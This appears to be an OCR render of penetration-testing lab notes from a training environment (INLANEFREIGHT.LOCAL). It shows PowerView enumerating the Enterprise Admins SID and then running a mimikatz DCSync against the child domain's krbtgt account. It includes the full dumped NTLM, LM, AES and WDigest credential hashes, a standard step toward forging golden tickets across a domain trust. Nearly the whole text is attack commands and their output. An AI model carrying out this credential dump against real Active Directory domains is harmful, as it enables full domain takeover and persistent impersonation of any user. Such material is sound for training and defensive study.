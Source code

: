 Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

cd .\mimikatz\x64\
.\mimikatz.exe

lsadump::dcsync /user:LOGISTICS\krbtgt

[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 10:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 8c6b7919c01a5c654c91922f9a13225c

* Primary:Kerberos-Newer-Keys *
    Default Salt : LOGISTICS.INLANEFREIGHT.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
      aes128_hmac       (4096) : ca289e175c372cebd18083983f88c03e
      des_cbc_md5       (4096) : fee04c3d026d7538

* Primary:Kerberos *
    Default Salt : LOGISTICS.INLANEFREIGHT.LOCALkrbtgt
    Credentials
      des_cbc_md5       : fee04c3d026d7538

* Packages *
    NTLM-Strong-NTOWF


* Primary:WDigest *
    01  71fc2147dcf21fed982e180c3ebc48b8
    02  e193e66c97fb2ff16f352c25c06a5009
    03  9b4087c331fcd37671b407cb4f0e44a2
    04  71fc2147dcf21fed982e180c3ebc48b8
    05  e193e66c97fb2ff16f352c25c06a5009
    06  0da90377100224d5635e529d358f1409
    07  71fc2147dcf21fed982e180c3ebc48b8
    08  1763ae4e99694dcf66700106bb303aa5
    09  024c0c0c71f6e1f89a8c3be922534f0d
    10  3523e29569b4a45d20d99b7937f40326
    11  1763ae4e99694dcf66700106bb303aa5
    12  024c0c0c71f6e1f89a8c3be922534f0d